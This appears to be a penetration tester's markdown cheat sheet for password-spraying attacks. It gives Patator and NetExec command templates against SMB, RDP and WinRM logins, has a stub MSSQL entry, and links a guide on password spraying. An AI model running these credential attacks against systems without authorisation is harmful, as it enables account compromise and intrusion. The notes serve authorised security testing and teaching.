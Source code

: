 # Patator

TODO: Finish this with CIDR format

## 01 - SMB

```
$ patator smb_login host=<IP> user=FILE0 0=users.lst password=<password>
```

## 02 - RDP

```
$ patator rdp_login host=<IP> user=FILE0 0=users.lst password=<password> -x ignore:fgrep='ERRCONNECT_LOGON_FAILURE'
```

## 03 - MSSQL

```
mssql_login
```

## 04 - WinRM

### 4.1 - NetExec

```
$ netexec winrm <IP>/<CIDR> -u Administrator -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]

$ netexec winrm <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

---
## References

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)